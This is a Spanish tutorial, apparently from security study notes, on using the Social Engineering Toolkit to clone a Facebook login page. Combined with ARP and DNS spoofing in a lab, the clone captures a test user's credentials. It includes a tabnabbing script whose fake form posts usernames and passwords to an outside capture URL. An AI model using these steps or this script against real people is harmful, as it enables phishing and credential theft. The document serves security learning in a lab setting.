 # Social Engineering ToolKit (SET)

Esta herramienta una de sus principales funciones es la de emular una pagina web que quieras totalmente exacta a la que elijas, reconstruyendo su codigo fuente para que sea una copia y con ello que se pueda hacer una especie de `phishing`.

Para mas informacion nos podremos ir al `github` de la herramienta en el siguiente link:

URL = [Social Engineering Toolkit GitHub](https://github.com/trustedsec/social-engineer-toolkit)

Esta herramienta ya viene instala por defecto en `kali`.

En tal caso de que no viene el repositorio, solo tendreis que instalar lo siguiente y ya la tendriais:

```shell
sudo apt install set
```

La iniciaremos con el siguiente comando:

```shell
setoolkit
```

Y nos aparecera como un `disclaimer` para aceptar que vamos a utilizar la herramienta con buenas acciones y no con malas, por lo que le daremos a la `y`, y esto nos metera en la herramienta:

<figure><img src="../../../.gitbook/assets/image (127) (1).png" alt=""><figcaption></figcaption></figure>

Esto lo que hace automaticamente es replicar una pagina web que elijamos y capturar las credenciales que se introduzcan por parte del usuario para que nos llegue a nosotros.

Le daremos al numero `1` y despues al numero `2`, tendremos que ver esto en nuestro `prompt` de terminal:

```
set:webattack>
```

Seguidamente le daremos al numero `5` y despues al numero `3`.

Nos dira que si la IP que vemos reflejada en el `prompt` es la correcta, ya que la detecta automaticamente, de ser asi le dariamos a `ENTER` de lo contrario metemos nosotros la IP y `ENTER`.

Ahora nos pedira la pagina la cual queremos replicar, por lo que buscaremos `facebook.es`, dentro del login de `facebook` le daremos click derecho en la pagina -> `Save Page As ...` -> cambiar la parte de `Web Page, Complete` por `Web Page, HTML Only` -> lo renombramos como index.html -> `Save`

Metemos la ruta donde este ese `index.html`, despues nos aparecera que importemos la `URL` pondremos `facebook.es` para que nos aparezca este dominio y le daremos a `ENTER`, si tenemos `apache2` corriendo nos dira que si lo queremos desactivar para que lo active el, le daremos a `y`, en tal caso de que no estuviera activado, ya estaria lista la herramienta.

Por lo que si visitamos `http://localhost/` nos dira un link de que se movio la pagina a otro sitio y esto nos redirigira a la pagina `phishing` de `facebook.es` exactamente igual a la original:

> NOTA POSIBLE ERROR:

Si por ejemplo diera un error en la parte de cuando dejas en blanco lo de la `URL` tendriamos que hacer lo siguiente:

```shell
sudo nano /usr/local/share/setoolkit/src/webattack/tabnabbing/source.js

#Dentro del nano

// source.js: Simulación básica de Tabnabbing
window.onload = function () {
    // Tiempo de espera para simular cambio de pestaña (en milisegundos)
    setTimeout(function () {
        // Cambia el contenido de la página después de 3 segundos
        document.body.innerHTML = `
            <h1>Inicia sesión para continuar</h1>
            <form action="http://example.com/capture" method="POST">
                <label for="username">Usuario:</label>
                <input type="text" id="username" name="username"><br><br>
                <label for="password">Contraseña:</label>
                <input type="password" id="password" name="password"><br><br>
                <button type="submit">Iniciar sesión</button>
            </form>
        `;
        document.title = "Inicio de sesión - Seguridad";
    }, 3000);
};
```

Guardamos esto y volvemos a ejecutar la herramienta, con esto deberia de funcionar ya.

<figure><img src="../../../.gitbook/assets/image (128) (1).png" alt=""><figcaption></figcaption></figure>

Una vez que tengamos corriendo esta pagina y estando en mitad de la comunicacion con el `ARP Spoofing` y el `DNS Spoofing` que le redirija a esta pagina cuando meta `facebook.es`, ya podremos probar a como si fueramos el usuario desde la maquina `windows` a meter `facebook.es` en el navegador y metes unas credenciales, por lo que si visitamos dicho dominio, veremos que funciona ya que nos aparece nuestra pagina falsa.

Cuando metemos nuestras credenciales como usuario normal, podremos ver que en la maquina atacante las recivimos:

<figure><img src="../../../.gitbook/assets/image (129) (1).png" alt=""><figcaption></figcaption></figure>
